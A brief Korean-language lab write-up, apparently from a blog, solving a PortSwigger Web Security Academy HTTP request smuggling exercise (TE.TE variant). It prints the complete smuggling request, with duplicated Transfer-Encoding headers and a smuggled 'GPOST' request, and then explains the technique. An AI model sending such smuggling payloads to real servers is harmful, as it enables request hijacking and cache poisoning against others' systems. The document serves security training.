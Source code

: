 풀이 성공시의 요청이다.

```http
POST / HTTP/1.1
Host: 0a9c00e6035881fc81126b97009600a1.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: identity

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

풀이에 성공했다는 메세지가 출력된다. 

![풀이 성공](/images/burp-academy-hrs-3-success.png)

# 정리 
TE.TE 는 프론트 엔드와 백엔드가 서로다른 TE를 보는 경우, 백엔드의 TE에 의미없는 값 `identity`를 넣어서 백엔드가 CL헤더를 보도록 만드는, 그래서 결과적으로 TE.CL로 동작하게 만드는 테크닉인 것을 알게 되었다. 

